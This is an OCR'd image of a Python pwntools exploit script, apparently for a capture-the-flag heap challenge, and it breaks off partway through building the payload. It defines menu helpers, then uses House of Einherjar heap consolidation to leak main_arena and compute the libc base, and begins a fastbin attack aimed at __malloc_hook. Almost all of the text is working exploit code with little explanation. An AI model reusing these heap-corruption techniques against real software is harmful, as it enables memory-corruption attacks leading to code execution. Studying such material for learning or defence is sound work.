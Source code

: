 ```python
r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, text):
	sla('>>', str(1))
	sla('???', str(size))
	sa(':>', text)


def rm(idx):
	sla('>>', str(2))
	sla('???', str(idx))

def dp(idx):
	sla('>>', str(3))	
	sla('???', str(idx))

def q():
	sla('>>', str(4))	

#--------------------------Exploit--------------------------
def exploit():
	ad(0x80,  'A\n') #idx 0
	ad(0x80,  'B\n') #idx 1
	ad(0x68,  'C\n') #idx 2
	ad(0xF0,  'D\n') #idx 3
	ad(0x68,  'E\n') #idx 4

	rm(2)

	p = 'A' * 0x60
	p += p64(0xda0 - 0xc10)
	ad(0x68, p)

	rm(2) #before emerge mem preparing fastbin attack
	# house of einharjar
	rm(0)
	rm(3)

	# show main_arena
	ad(0x80, '\n')
	dp(1)
	main_arena = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - 0x58
	libc_base = main_arena - 0x3c4b20
	li('main_arena ' + hex(main_arena))
	li('libc_base  ' + hex(libc_base))
	
	#fastbin attack to malloc_hook
	p = 'B' * 0x80
	p += p64(0)
	p += p64(0x71)
```